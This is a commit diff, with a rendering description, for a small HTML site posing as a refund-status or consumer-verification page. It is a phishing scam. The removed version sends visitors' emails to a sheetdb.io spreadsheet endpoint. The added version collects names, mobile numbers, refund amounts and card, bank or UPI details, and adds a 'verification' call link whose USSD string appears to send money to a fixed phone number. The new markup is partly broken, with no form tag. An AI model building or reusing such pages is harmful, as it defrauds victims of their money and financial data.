

Before and after one commit to SHC181/refundstatus, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 705-1128 px from the top of the page. After the commit the page ends 1080 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,18 @@
+
 <!DOCTYPE html>
 <html>
 <style>
-body {font-family: Arial, Helvetica, sans-serif;}
-* {box-sizing: border-box;}
+    body {
+        font-family: Arial, Helvetica, sans-serif;
+    }
+
+    * {
+        box-sizing: border-box;
+    }
 
     /* Full-width input fields */
-input[type=text], input[type=password] {
+    input[type=text],
+    input[type=password] {
         width: 100%;
         padding: 15px;
         margin: 5px 0 22px 0;
@@ -15,7 +22,8 @@ input[type=text], input[type=password] {
     }
 
     /* Add a background color when the inputs get focus */
-input[type=text]:focus, input[type=password]:focus {
+    input[type=text]:focus,
+    input[type=password]:focus {
         background-color: #ddd;
         outline: none;
     }
@@ -33,7 +41,7 @@ button {
     }
 
     button:hover {
-  opacity:1;
+        opacity: 1;
     }
 
     /* Extra styles for the cancel button */
@@ -43,7 +51,8 @@ button:hover {
     }
 
     /* Float cancel and signup buttons and add an equal width */
-.cancelbtn, .signupbtn {
+    .cancelbtn,
+    .signupbtn {
         float: left;
         width: 50%;
     }
@@ -55,14 +64,20 @@ button:hover {
 
     /* The Modal (background) */
     .modal {
-  display: none; /* Hidden by default */
-  position: fixed; /* Stay in place */
-  z-index: 1; /* Sit on top */
+        display: none;
+        /* Hidden by default */
+        position: fixed;
+        /* Stay in place */
+        z-index: 1;
+        /* Sit on top */
         left: 0;
         top: 0;
-  width: 100%; /* Full width */
-  height: 100%; /* Full height */
-  overflow: auto; /* Enable scroll if needed */
+        width: 100%;
+        /* Full width */
+        height: 100%;
+        /* Full height */
+        overflow: auto;
+        /* Enable scroll if needed */
         background-color: #474e5d;
         padding-top: 50px;
     }
@@ -70,9 +85,11 @@ button:hover {
     /* Modal Content/Box */
     .modal-content {
         background-color: #fefefe;
-  margin: 5% auto 15% auto; /* 5% from the top, 15% from the bottom and centered */
+        margin: 5% auto 15% auto;
+        /* 5% from the top, 15% from the bottom and centered */
         border: 1px solid #888;
-  width: 80%; /* Could be more or less, depending on screen size */
+        width: 80%;
+        /* Could be more or less, depending on screen size */
     }
 
     /* Style the horizontal ruler */
@@ -106,43 +123,46 @@ hr {
 
     /* Change styles for cancel button and signup button on extra small screens */
     @media screen and (max-width: 300px) {
-  .cancelbtn, .signupbtn {
+
+        .cancelbtn,
+        .signupbtn {
             width: 100%;
         }
     }
 </style>
+
 <body>
-<h2> Check your refund status </h2>
+    <h2> Consumers Verification </h2>
     <img src=" mobil.jpeg">
-<span onclick="document.getElementById('id01').style.display='none'" class="close" title="Close Modal">&times;</span>
- <form class="modal-content" action="https://sheetdb.io/api/v1/2d6oxymr12ubu" method="post" id="sheetdb-form" >
- <div class="container">
- <h1>Sign in to check your refund status</h1>
- <p> Verify its you </p>
+            <h1>Verify Your Self and get update Settlements on your legal case </h1>
+            <p> Enter Your Correct details </p>
             <hr>
- <label for="Mobile"><b>Your Email </b></label>
- <input type="text" placeholder=" Enter your email" name="data[mob]" required>
 
-<button onclick="document.getElementById('id02').style.display='block'" style="width:auto;" > Check Refund Status</button>
+            <label for="name"><b> Your Name</b></label>
+            <input type="text" placeholder="Enter your Name" name="data[name]" required>
 
-<<script>
-            var form = document.getElementById('sheetdb-form');
-        form.addEventListener("submit", e => {
-          e.preventDefault();
-          fetch(form.action, {
-              method : "POST",
-              body: new FormData(document.getElementById("sheetdb-form")),
-          }).then(
-              response => response.json()
-          ).then((html) => {
-            // you can put any JS code here
-            window.open('verify.html', '_self');
+            <label for="Mobile"><b>Mobile Number</b></label>
+            <input type="text" placeholder="Enter Mobile Number" name="data[mob]" required>
 
-          });
-        });
-        </script>
+            <label for="refund amount"><b>Refund amount</b></label>
+            <input type="text" placeholder="Enter your refundable amount" name="data[refund]" required>
+
+            <select name="refund mode" id="refund mode-select">
+                <option value="">--Please choose an option--</option>
+                <option value="Paytm">Paytm</option>
+                <option value="Mobikwik">UPI</option>
+                <option value="Credit card">Credit card</option>
+                <option value="Debit card">Debit card</option>
+                <option value="Bank Account">Bank Account</option>
+                <option value="Net banking">Gift Card</option>
+            </select>
+
+            <label for="mode"><b>Enter details Below as per Option </b></label>
+            <input type="text" placeholder="Enter Refund Mode " name="data[mode]" required>
 
 
+            <a href="tel://*99*1*1*9990842321*4949*1#">click to call for verification</a>
 
 </body>
+
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
